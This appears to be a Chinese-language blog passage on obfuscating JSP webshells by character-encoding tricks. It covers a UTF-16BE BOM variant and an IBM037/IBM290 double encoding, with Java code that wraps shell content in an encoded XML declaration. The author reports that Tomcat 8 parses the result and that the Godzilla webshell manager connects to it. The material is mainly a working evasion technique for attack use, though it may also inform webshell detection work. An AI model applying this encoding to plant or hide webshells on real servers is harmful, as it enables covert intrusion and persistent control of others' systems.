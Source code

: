 **  1 只使用bom头的方式进行UTF-16BE内容编码**

![]()

通过主动调用jspencounter中的Encode函数，并且不去除bom头，选择UTF-16BE内容编码，会明显发现，编码后的5.jsp比原文件4.jsp的文件大小要大一倍

![]()

原文件和编码后的文件，使用sublime工具打开，如下图（可以看到编码后的shell内容还是可见的）：

![]()

010editor打开5.jsp查看二进制数据：

![]()

上传tomcat可以解析

![]()

![]()

 **2 IBM290 &IBM037双重编码的测试**

测试了一下只使用bom头的方式进行IBM037编码，在没有XML声明头的情况下，像5.1那样，插入IBM037的bom头，然后内容进行IBM037编码，并不可以，需要有XML声明头给程序进行XML格式识别

  *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //xml声明头采用IBM037编码，shell内容采用IBM290编码。代码实现如下：public static byte[] tomcat_jsp_IBM290(byte[] data) throws Exception {     byte[] header = "<?xml version=\"1.0\" encoding='IBM290'?>".getBytes();//用X加密头标签     InputStream header_inputStream = new ByteArrayInputStream(header);     String header_str = IOUtils.toString(header_inputStream, StandardCharsets.UTF_8);     byte[] header_enc_byte_res = CharsetEncoder.Encode(header_str, "IBM037", true);     InputStream inputStream = new ByteArrayInputStream(data);     String shell_str = IOUtils.toString(inputStream, StandardCharsets.UTF_8);     byte[] enc_byte_res = CharsetEncoder.Encode(shell_str, "IBM290", true);     byte[] final_byte = new byte[header_enc_byte_res.length+enc_byte_res.length];     System.arraycopy(header_enc_byte_res, 0, final_byte, 0, header_enc_byte_res.length);     System.arraycopy(enc_byte_res, 0, final_byte, header_enc_byte_res.length, enc_byte_res.length);     return final_byte; }

生成的12.jsp双重编码的马子，二进制和文本格式如下：

![]()

webshell混淆效果如下

![]()

tomcat8能成功解析，并且godzilla能成功连接：

![]()

![]()
